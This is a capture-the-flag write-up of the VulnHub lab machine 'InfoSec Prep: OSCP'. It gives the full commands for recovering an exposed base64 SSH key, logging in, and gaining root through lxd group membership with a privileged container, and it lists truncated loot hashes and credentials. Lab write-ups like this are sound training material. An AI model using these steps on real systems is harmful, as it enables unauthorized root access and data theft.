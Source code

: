 [VulnHub] InfoSec Prep: OSCP
===============
date: 10/Aug/2020
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [InfoSec Prep: OSCP](https://www.vulnhub.com/entry/infosec-prep-oscp,508/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_infosecpreposcp/killchain.png.webp)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.80 scan initiated Mon Jul 20 12:03:57 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/repos/writeupsall/vulnhub.infosecpreposcp/192.168.119.198/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/repos/writeupsall/vulnhub.infosecpreposcp/192.168.119.198/scans/xml/_quick_tcp_nmap.xml 192.168.119.198
Nmap scan report for 192.168.119.198
Host is up, received user-set (0.0022s latency).
Scanned at 2020-07-20 12:04:12 IST for 9s
Not shown: 998 closed ports
Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.4.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 20 12:04:21 2020 -- 1 IP address (1 host up) scanned in 24.59 seconds

```

2\. We find `80/tcp` to be open. Upon browsing the webpage we see that it looks to be a Wordpress blog with a post named "OSCP Voucher". This posts lists the process to submit the flag and also mentions that there's a user named `oscp` on this machine:  

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot01.png.webp)  

3\. The `gobuster` scan result confirms that this is a Wordpress blog. We see an interesting entry `secret.txt` from `gobuster` scan results and also from the `robots.txt` file:  

![writeup.enumeration.steps.3.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot02.png.webp)  

![writeup.enumeration.steps.3.2](/static/files/posts_vulnhub_infosecpreposcp/screenshot03.png.webp)  

4\. This file has base64 encoded content that we decode to find a SSH private key file:  
```
curl http://192.168.119.198/secret.txt | base64 -d -
```

![writeup.enumeration.steps.4.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot04.png.webp)  

### Findings
#### Open Ports
```
22/tcp      ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux protocol 2.0)
80/tcp      http       Apache httpd 2.4.41 ((Ubuntu))
33060/tcp   socks5
```
#### Files
```
http://192.168.119.198/secret.txt
http://192.168.119.198/license.txt
```
#### Users
```
ssh: oscp
wordpress: admin
```

## Phase #2: Exploitation
1\. We can try to SSH into the machine as user `oscp` using the SSH private key file. First, we need to set right permissions to the key file and then use it for login:  
```
curl http://192.168.119.198/secret.txt | base64 -d - >./sshkey.pvt
chmod 600 sshkey.pvt
ssh -i sshkey.pvt oscp@192.168.119.198
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot05.png.webp)  

2\. We successfully login and get interactive access of the machine as user `oscp`:  

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot06.png.webp)  


## Phase #2.5: Post Exploitation
```
oscp@oscp> id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
oscp@oscp>  
oscp@oscp> uname
Linux oscp 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
oscp@oscp>  
oscp@oscp> ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
  inet 192.168.119.198  netmask 255.255.255.0  broadcast 192.168.119.255
  inet6 fe80::20c:29ff:fee6:a4ab  prefixlen 64  scopeid 0x20<link>
  ether 00:0c:29:e6:a4:ab  txqueuelen 1000  (Ethernet)
  RX packets 389730  bytes 88031188 (88.0 MB)
  RX errors 0  dropped 0  overruns 0  frame 0
  TX packets 297471  bytes 52912167 (52.9 MB)
  TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 694  bytes 64212 (64.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 694  bytes 64212 (64.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
oscp@oscp>  
oscp@oscp> users
root
oscp
```

## Phase #3: Privilege Escalation
1\. From the output of command `id`, we see that the user `oscp` is a member of `lxd` group. We can exploit this misconfiguration to create a dummy container that mounts the local file system and gain access to all privileged files. But we see that the `lxc` command for this to work is not found in our current environment path:  
```
lxc init ubuntu:16.04 test -c security.privileged=true
  -bash: lxc: command not found
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot09.png.webp)  

2\. We locate the file and use it's absolute path to create the container. This time we see another error about storage pool. The error message helpfully points us in the right direction and we need to initialize LXD first. We use the suggested command with the absolute path and choose default settings when prompted for a change:  
```
/snap/bin/lxd init
/snap/bin/lxc init ubuntu:16.04 test -c security.privileged=true
/snap/bin/lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
/snap/bin/lxc start test
/snap/bin/lxc exec test bash
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_infosecpreposcp/screenshot10.png.webp)  

![writeup.privesc.steps.2.2](/static/files/posts_vulnhub_infosecpreposcp/screenshot11.png.webp)  

![writeup.privesc.steps.2.3](/static/files/posts_vulnhub_infosecpreposcp/screenshot12.png.webp)  

![writeup.privesc.steps.2.4](/static/files/posts_vulnhub_infosecpreposcp/screenshot13.png.webp)  

## Learning/Recommendation
* The SSH key for a user on the target machine was exposed via web application. Although the file was base64 encoded and listed within `robots.txt`, it doesn't stop an attacker from accessing it.
* The local user was member of the LXD group which allowed to create a privileged container with access to the entire file system. This lead to complete access of files, even those that have been restricted to `root` user only.

## Loot
### Hashes
```
oscp:$6$k8OEgwaFdUqpVETQ$sKlBojI3IYunw8wEDAyoFdHgVtOPzkDPqksql7IWzpfZXpd3UqP569BokTZ52mDroq/rmJY9zgfeQVmB.........................
root:$6$.wvqHr9ixq/hDW8t$a/dHKimULfr5rJTDlS7uoUanuJB2YUUkh.LWSKF7kTNp4aL8UTlOk2wT8IkAgJ.vDF/ThSIOegsuclEg.........................
```
### Credentials
```
mysql: wordpress/Oscp12....
wordpress: admin:$P$Bx9ohXoCVR5lkKtuQbuWuh2........
```
### Flags
```
/mnt/root/root/flag.txt: d73b04b0e696b0945283d...........
```

## References
* <https://www.vulnhub.com/entry/infosec-prep-oscp,508/>  
* <https://reboare.github.io/lxd/lxd-escape.html>  
* <https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation>  
* <https://medium.com/@falconspy/infosec-prep-oscp-vulnhubwalkthrough-a09519236025>  
